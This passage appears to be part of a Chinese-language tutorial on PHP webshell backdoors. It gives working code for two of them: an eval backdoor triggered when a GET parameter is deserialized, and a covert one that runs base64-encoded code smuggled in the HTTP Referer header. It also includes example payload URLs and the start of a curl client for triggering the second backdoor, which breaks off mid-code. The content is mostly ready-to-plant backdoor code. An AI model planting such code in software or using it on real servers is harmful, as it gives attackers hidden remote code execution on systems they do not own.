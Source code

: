 ### 0x18: PHP的序列化、反序列化特性布置后门&#x20;

```php
<?php
    class Example
    {
       var $var = '';
       function __destruct()
       {
          eval($this->var);
       }
    }
    //$exp =  new Example();
    //$exp->var = "phpinfo();";
    //die(serialize($exp));
    unserialize($_GET['saved_code']);
?>
# O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}  
# http://localhost/shell/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}  
```

原理是: 被序列化的对象在反序列化的时候会自动调用它的析构函数

### 0x19: 使用HTTP头部的其他非常用字段进行指令的传输&#x20;

通过HTTP请求中的HTTP\_REFERER来运行经过base64编码的代码，来达到后门的效果。

{% tabs %}
{% tab title="backdoor" %}


```php
<?php
    header('Content-type:text/html;charset=utf-8');
    //将$_SERVER['HTTP_REFERER']中的参数解析到本地变量中，放到$a数组中
    parse_str($_SERVER['HTTP_REFERER'], $a);
    //判断数组变量$a中的第一个元素是否是"10"、并且数组元素个数是否是9个
    if(reset($a) == '10' && count($a) == 9)
    {    
        //取出数组$a中索引6的元素，即我们传入的实际payload，并进行base64_decode解码
        eval(base64_decode(str_replace(" ", "+", implode(array_slice($a, 6)))));
    }
?>
```


{% endtab %}

{% tab title="利用方式" %}


```php
<?php
    header('Content-type:text/html;charset=utf-8');
    //要执行的代码
    $code = "phpinfo();";
    //进行base64编码
    $code = base64_encode($code);
    //构造referer字符串
    $referer = "a=10&b=ab&c=34&d=re&e=32&f=km&g={$code}&h=&i=";
    //后门url
    $url = 'http://localhost/shell/index.php';
    $ch = curl_init();
    $options = array(
        CURLOPT_URL => $url,
        CURLOPT_HEADER => FALSE,
        CURLOPT_RETURNTRANSFER => TRUE,
        CURLOPT_REFERER => $referer
    );
```